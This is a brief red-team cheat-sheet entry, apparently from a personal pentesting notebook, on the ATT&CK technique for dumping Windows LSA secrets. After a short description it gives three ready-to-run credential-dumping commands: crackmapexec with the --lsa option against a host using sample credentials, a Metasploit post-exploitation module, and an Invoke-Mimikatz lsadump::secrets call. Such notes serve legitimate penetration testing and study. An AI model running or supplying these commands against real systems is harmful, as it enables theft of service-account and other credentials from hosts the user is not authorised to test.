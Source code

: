```yaml
---
date: 
tags:
  - ActiveDirectory
  - LSA
---
```


```table-of-contents
```

# Description: 

https://attack.mitre.org/techniques/T1003/004/

# LSA Secrets

**ATT\&CK ID:** [T1003.004](https://attack.mitre.org/techniques/T1003/004/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts. LSA secrets are stored in the registry at `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. LSA secrets can also be dumped from memory.

## Techniques

### Crackmapexec

```bash
crackmapexec smb '10.10.10.100' -u 'moe' -p 'Password123' --lsa
```

![](../../../Assets/Pasted%20image%2020250619221312.png)

### Metasploit

```
use post/windows/gather/lsa_secrets
```

![](../../../Assets/Pasted%20image%2020250619221319.png)

### Mimikatz

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

![](../../../Assets/Pasted%20image%2020250619221325.png)
